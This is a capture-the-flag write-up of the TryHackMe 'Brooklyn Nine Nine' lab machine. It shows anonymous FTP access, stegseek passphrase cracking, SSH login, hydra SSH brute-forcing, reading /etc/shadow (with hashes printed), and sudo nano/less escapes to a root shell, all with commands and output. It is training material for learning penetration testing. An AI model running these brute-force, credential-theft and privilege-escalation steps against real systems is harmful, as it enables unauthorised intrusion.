




# Brooklyn Nine Nine
**Date:** November 2nd 2022

**Author:** j.info

**Link:** [**Brooklyn Nine Nine**](https://tryhackme.com/room/brooklynninenine) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
ORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 718]
```

<br>

## FTP Digging

Anonymous login is allowed so I check out what files are available `ftp $ip`:

```
Connected to 10.10.77.122.
220 (vsFTPd 3.0.3)
Name (10.10.77.122:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||9238|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||31086|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |***********************************************************|   119        3.66 MiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (1.54 KiB/s)
ftp> quit
221 Goodbye.
```

Looking at the file we downloaded:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Sounds promising!

<br>

## Website Digging

Visiting the main page:


Checking the page source code gives us a hint:

```
<!-- Have you ever heard of steganography? -->
```

Oh boy, everyone's favorite, steganography! I download the image so I can start examining it.

Starting with `steghide extract -sf brooklyn99.jpg` to see if I can extract any hidden info:

```
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Time to break out `stegseek -wl rockyou.txt brooklyn99.jpg` to crack the password:

```
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "<REDACTED>"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

Alright we extracted a hidden note, let's take a look at it:

```
Holts Password:
<REDACTED>

Enjoy!!
```

<br>

## System Access

With that I ssh over and am able to connect as holt:

```
The authenticity of host '10.10.77.122 (10.10.77.122)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.77.122' (ED25519) to the list of known hosts.
holt@10.10.77.122's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$
```

<br>

## System Enumeration

Waiting for us in holt's home directory we see the user.txt flag:

`wc -c /home/holt/user.txt`

```
33 /home/holt/user.txt
```

Looking for SUID files with `find / -perm /4000 2>/dev/null` shows nothing out of the ordinary.

Checking `getcap -r / 2>/dev/null` for any files with interesting capabilities also comes up with nothing useful.

Other than root these users have shells on the system:

```
amy:x:1001:1001:,,,:/home/amy:/bin/bash
holt:x:1002:1002:,,,:/home/holt:/bin/bash
jake:x:1000:1000:,,,:/home/jake:/bin/bash
```

Checking `sudo -l` shows we can use nano as root:

```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

<br>

## Root

Looking at [**GTFOBins for the nano command**](https://gtfobins.github.io/gtfobins/nano/#sudo) shows us the following:



And doing that drops us to a root shell:

```
Command to execute: reset; sh 1>&0 2>&0
# whoami
root
```

The root.txt flag is waiting for us in the /root directory:

`wc -c /root/root.txt`

```
135 /root/root.txt
```

<br>

## Bonus

We saw earlier in a note on the FTP server that jake had a weak password so I decide to brute force it:

`hydra -l jake -P rockyou.txt $ip ssh`

```
[22][ssh] host: 10.10.77.122   login: jake   password: <REDACTED>
```

And I'm able to ssh over as jake:

```
jake@10.10.77.122's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$
```

Jake has `sudo -l` access:

```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

With that you can view /etc/shadow and other sensitive files:

`sudo /usr/bin/less /etc/shadow`

```
amy:$6$UKs4AX7L$8Q1ET3/4EDtczkEAde4Bkc9g4ao2v3IRbapkqtNnWaKa7a2UHbYGsAEqBPlAwXVq8LK39IRjPwmocYkkkikrR0:18399:0:99999:7:::
holt:$6$arvDAeLb$qQX5UfC/TdI2GELzcrI88B7aD.3NGI9eGyhIQPNdtFIcTfzNdSrxt212lOdNM./UQ0dInL0ej4UliuHKKQcjk0:18399:0:99999:7:::
jake:$6$sAa2xMd5$/EyF9jL6BNeNEYixHkn86Gcvg8UeVJl7FvjXcJH1InhrwObBcN7qecniXkq.Bq1nFA8YS8HD2uk/jf8Ju7KnW0:18401:0:99999:7:::
```

We know the password for holt and jake already, but not amy, so I add the hash to a file on my system and try to crack it with hashcat:

`hashcat -m 1800 -w 3 -D 1,2 hash.txt rockyou.txt`

But, no luck:

```
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344384/14344384 (100.00%)
```

We can also escalate to root with the less command. Again checking [**GTFOBins for the less command**](https://gtfobins.github.io/gtfobins/less/#sudo) shows us:



`sudo less /etc/profile`

```
jake@brookly_nine_nine:~$ sudo less /etc/profile
root@brookly_nine_nine:~# whoami
root
```

Once you run the less command above the page will wait to go to the next screen since it's more than one page of info being displayed. You can then type the following to drop out to root:

`!/bin/bash`

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding sensitive information on an **FTP** server that allows anonymous logins
- Using **stegseek** to recover a hidden note with login credentials from a picture file and using them to ssh over to the system
- Checking **sudo** access and seeing that we can use the **nano command as root**
- Checking how to escalate to root with nano at **GTFOBins**
- Using **hydra** to brute force our way in to a different user account
- Finding that the new user can run the **less** command as root and using **GTFOBins** to exploit that for privilege escalation to root

<br>

Many thanks to:
- [**Fsociety2006**](https://tryhackme.com/p/Fsociety2006) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)